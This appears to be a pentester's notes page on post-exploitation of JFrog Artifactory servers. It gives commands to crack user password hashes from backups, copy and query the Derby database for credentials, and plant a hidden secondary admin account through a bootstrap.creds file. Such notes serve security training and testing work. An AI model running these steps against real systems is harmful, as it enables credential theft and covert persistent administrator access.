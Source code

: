 ```yaml
---
layout:     post
author:     0x5c4r3
type: docs
permalink: test
---
```

<span style="font-size: 35px; color:red"><b>Artifactory</b></span>

<span style="color:red">Binary Repository Manager</span> that stores software packages and other binaries installed in <span style="color:red">/opt/jfrog</span>. If it's running, it will run as webserver on port 8082 locally or port 8081 remotely.
To prevents developers from getting untrusted or unstable binaries directly from the Internet.

To Start:
```shell
sudo /opt/jfrog/artifactory/app/bin/artifactoryctl start
```

To see whether an Artifactory repo is running on the system:
```shell
ps aux | grep artifactory
```

Login page at <span style="color:red">http://<domain>:8082/</span>.


<span style="font-size: 25px; color:white">Credentials</span>
The open-source version of Artifactory creates database backups for the user accounts at /<Artifactory_Folder>/var/backup/access in JSON format.
The password is in bcrypt format and can be cracked as follows:
```shell
sudo john derbyhash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

<span style="font-size: 25px; color:white">Compromising Artifactory Database</span>
If there are no backup files available, we can access the database itself or attempt to copy it and extract the hashes manually.
Copy the database to a temporary location and unlock it:
```shell
sudo cp -r /opt/jfrog/artifactory/var/data/access/derby /tmp/hackeddb
sudo chmod 755 /tmp/hackeddb/derby
sudo rm /tmp/hackeddb/derby/*.lck
```

If it's using Apache's Derby, install Apache's derby tools. <span style="color:red">ij</span> tool allows you to handle the database and query it:
```shell
sudo /opt/jfrog/artifactory/app/third-party/java/bin/java -jar /opt/derby/db-derby-10.15.1.3-bin/lib/derbyrun.jar ij
```
From there:
```shell
select * from access_users;
```
and you'll see the passwords.

<span style="font-size: 25px; color:white">Adding a Secondary Artifactory Admin Account</span>
This method requires write access to the /opt/jfrog/artifactory/var/etc/access folder and the ability to change permissions on the newly-created file, which usually requires _root_ or _sudo_ access.
In there, create a `bootstrap.creds` like so:
```shell
haxmin@*=haxhaxhax
```
creating a new user <span style="color:red">haxmin</span> with password <span style="color:red">haxhaxhax</span>. Set permissions to 600:
```shell
sudo chmod 600 /opt/jfrog/artifactory/var/etc/access/bootstrap.creds
```
Now reboot the process:
```shell
sudo /opt/jfrog/artifactory/app/bin/artifactoryctl stop
sudo /opt/jfrog/artifactory/app/bin/artifactoryctl start
```

To check if everything went smooth:
```shell
sudo grep "Create admin user" /opt/jfrog/artifactory/var/log/console.log
```
